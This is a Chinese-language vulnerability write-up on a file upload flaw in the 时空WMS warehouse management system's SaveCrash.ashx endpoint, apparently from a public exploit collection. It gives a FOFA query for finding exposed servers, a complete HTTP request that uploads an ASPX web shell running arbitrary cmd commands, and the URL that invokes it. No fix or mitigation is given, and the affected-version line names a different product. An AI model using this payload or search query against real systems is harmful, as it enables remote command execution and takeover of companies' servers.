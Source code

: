# 时空WMS-仓储精细化管理系统SaveCrash存在文件上传漏洞

# 一、漏洞简介
时空WMS-仓储精细化 管理系统Q是一款高效、智能的仓储管理工具，旨在帮助企业实现仓库的精细化管理和高效运营。由郑州时空软件开发，专注于以数字化、智能化推动企业进步。该系统基于先进的仓储管理理念和技术架构，融合了物联网、移动互联等前沿技术，实现了对仓库内物资的全面、精准、高效管理。系统适用于各类仓储物流企业，包括电商仓储、第三方物流、生产仓储等多个领域。通过使用该系统，企业可以实现对仓库内物资的全面掌控和高效管理，提高库存周转率，降低库存成本，提升企业竞争优势。时空WMS-仓储精细化管理系统SaveCrash存在文件上传漏洞 

# 二、影响版本
```plain
锁群管理系统 V2.0
```

# <font style="color:rgb(51, 51, 51);">三、资产测绘</font>
+ fofa`body="SKControlkLForJson.ashx"`
+ 特征

![1733071650019-13b87c7a-4d19-452b-ad2c-e2165a0ac370.png](./img/B_3LoGT3IdMx4D3i/1733071650019-13b87c7a-4d19-452b-ad2c-e2165a0ac370-919917.png)

# 四、漏洞复现
```plain
POST /crash/SaveCrash.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![1733071772492-82bae175-e317-4642-8d14-4522302fd265.png](./img/B_3LoGT3IdMx4D3i/1733071772492-82bae175-e317-4642-8d14-4522302fd265-876997.png)

```plain
/crash/log/2024_12/133775453729140443.aspx?cmd=whoami
```

![1733071799074-e84bebd2-4d75-4825-a9e0-c963b7bf8319.png](./img/B_3LoGT3IdMx4D3i/1733071799074-e84bebd2-4d75-4825-a9e0-c963b7bf8319-510233.png)



> 更新: 2024-12-20 14:53:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zbiltpbxr1s31uex>